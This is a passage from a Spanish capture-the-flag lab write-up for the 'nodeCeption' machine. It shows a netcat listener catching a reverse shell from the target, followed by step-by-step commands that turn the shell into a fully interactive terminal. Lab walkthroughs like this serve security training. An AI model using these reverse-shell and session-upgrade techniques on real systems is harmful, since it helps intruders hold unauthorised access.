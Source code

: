 <p align="center">
<img src="/assets/images/THL-writeup-nodeCeption/Captura27.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.120] 37520
bash: cannot set terminal process group (9960): Inappropriate ioctl for device
bash: no job control in this shell
thl@nodeception:~$ whoami
whoami
thl
thl@nodeception:~$
```
Estamos dentro.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Puedes continuar con esta sesión o desde el **servicio SSH**.
